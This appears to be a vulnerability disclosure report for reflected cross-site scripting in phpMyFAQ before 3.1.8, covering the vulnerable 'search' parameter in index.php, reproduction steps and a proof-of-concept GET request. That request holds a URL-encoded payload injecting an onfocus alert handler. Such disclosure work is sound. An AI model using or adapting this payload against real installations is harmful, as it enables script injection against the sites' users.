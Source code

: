# Vulnerability Type

Cross-site Scripting

# Description

Cross-site Scripting (XSS) - Reflected in GitHub repository thorsten/phpmyfaq prior to 3.1.8.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpmyfaq/
 - Version: 3.1.7
 - Tested on: Windows 10

 ## Exploit Description

The source is located in `index.php`, and the vulnerable parameter is `search`, which must satisfy both data flow and syntax constraints to trigger the XSS vulnerability.

 ## Steps to Reproduce

  1. Log in phpmyfaq.
  2. Send the request.
  3. Observe the result: 

![Image](assets/CVE-2022-3766.png)

 ## Proof Of Concept
````
GET http://phpmyfaq1/index.php?action=main&search=%22%20onfocus%3D%22alert%281%29

Additional Conditions:
- Ensure that no security mechanisms (like a web application firewall) are blocking the specific request pattern.
- The application must be running a phpMyFAQ version prior to 3.1.8.
````

